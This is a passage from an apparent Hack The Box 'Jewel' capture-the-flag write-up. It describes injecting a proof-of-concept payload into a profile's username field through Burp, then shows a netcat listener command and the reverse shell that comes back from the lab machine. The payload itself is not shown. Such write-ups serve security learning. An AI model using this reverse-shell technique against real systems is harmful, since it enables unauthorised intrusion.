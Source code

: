 After all of that work, it was pretty easy to follow the instructions in the POC to create the payload.  

![](/assets/img/4-burp-payload.png)

captured request to change the username on the 'edit profile' page in burp, then added my payload in place of the username field

![](/assets/img/4-burp-payload-error.png)

On the exit profile page, got an error message after sending my payload in place of the username field, but  the payload still executed.

## Initial Foothold

```text
zweilos@kali:~/htb/jewel$ script
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ bash      
zweilos@kali:~/htb/jewel$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.211] 40016
bash: cannot set terminal process group (818): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$
```
